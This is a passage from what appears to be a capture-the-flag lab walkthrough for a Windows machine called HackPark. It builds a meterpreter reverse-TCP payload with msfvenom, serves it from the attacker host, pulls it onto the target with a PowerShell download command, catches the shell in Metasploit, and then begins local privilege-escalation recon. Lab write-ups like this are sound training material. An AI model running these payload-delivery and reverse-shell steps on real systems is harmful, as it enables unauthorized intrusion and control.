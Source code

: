     msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.82.167 LPORT=5555 -f exe > payload.exe

Open up a new terminal in the same directory as your payload, run:

    sudo python -m SimpleHTTPServer 80

On your netcat listener, we're going to move to the temp folder (where we can write files to), and download the payload through a Powershell command:

    cd c:\windows\temp
    powershell Invoke-WebRequest -Uri http://10.8.82.167/payload.exe -Outfile payload.exe

On another Terminal, start up Metasploit:

    msfconsole
    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 10.8.82.167
    set lport 5555
    run

Finally once the metasploit listener is running, on your nc listener type:

    powershell Start-Process payload.exe

Output from Metasploit:

    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.8.82.167:5555 
    [*] Sending stage (176195 bytes) to 10.10.96.44
    [*] Meterpreter session 1 opened (10.8.82.167:5555 -> 10.10.96.44:49541) at 2020-07-31 20:09:56 +0100

    meterpreter > sysinfo
    Computer        : HACKPARK
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

    meterpreter > getuid
    Server username: IIS APPPOOL\Blog

### 2 	

*You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then feed this information into the windows-exploit-suggester script and quickly identify any obvious vulnerabilities.*

*What is the OS version of this windows machine?*

OS : Windows 2012 R2 (6.3 Build 9600)

We're going to run the Local Exploit Suggester first just to see if there's anything of note:

    meterpreter > run post/multi/recon/local_exploit_suggester 
